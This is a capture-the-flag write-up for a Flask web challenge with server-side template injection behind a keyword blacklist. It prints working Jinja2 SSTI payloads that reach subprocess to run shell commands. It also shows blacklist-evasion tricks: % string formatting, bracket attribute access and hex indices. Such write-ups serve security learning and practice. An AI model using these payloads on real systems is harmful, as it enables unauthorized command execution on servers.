

# \[Web] Safe Template

## TL;DR

* We have a website that has SSTI but with big blacklist: no dangerous keyword like config, import; the usual.
* \[], '", % is not blacklist so we can bypass any keyword blacklist, () is not blacklisted so we can call function, \[digit] is blacklisted but can be bypassed using hex like so \[0x1].
* Just make a typical payload using the above bypass.
* Profit

Flag: WRECKIT60{SSTI?\_ululala\_88efdbcc98eefdacea1344}

## Description

<figure><figcaption></figcaption></figure>

## Overview

<figure><figcaption></figcaption></figure>

We are given a website that takes an input and then renders it in the website.&#x20;

Looking at the source code,

<figure><figcaption></figcaption></figure>

We see that the rendering uses render\_template\_string() which is susceptible to SSTI attacks. But common attack payload is blocked by the following blacklist,&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

We can see that it quite a bit of blacklist: no dangerous keyword, no +, no \[digit], no double underscore (but single undersocre is allowed), and so on.&#x20;

That is all the website has to offer. Its really setup to be an SSTI Challenge


## Solution

There is an SSTI-susceptible input and there is a blacklist sanitization. So obviously I try to bypass the blacklist and fortunately It's relatively simple to do just that.&#x20;

The fact that \[] is not blacklisted already opens up a whole cans of payloads. We can bypass those keywords blacklist by doing string concatenation. How to do string concat if + is blacklisted? Use formatting with % like so:

```
{{''['_%s%s' % ('_class_','_')]}}
```

With that we can already have access to common attack payloads. One of them is this one from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md),&#x20;

```
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

We can just convert it to avoid the blacklist and makes it like the following working payload

<pre class="language-python"><code class="lang-python"><strong>{{''['%s%s' % ('req', 'uest')]{{''['_%s%s'%('_class_','_')]['_%s%s'%('_mro_','_')][0x1]['_%s%s'%('_subclasses_','_')]()[0x162]('ls',shell=True,stdout=-1).communicate()[0x0].strip()}}}}
</strong></code></pre>

We need to use hex for the index of the subclasses because \[digit] is blocked but because hex has an 0x prefix it doesnt count as a digit and therefore not get blacklisted.&#x20;

Now we just send our payload to get the flag at /flag.txt and we're done.&#x20;

## Links

Source Code



References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md" %}
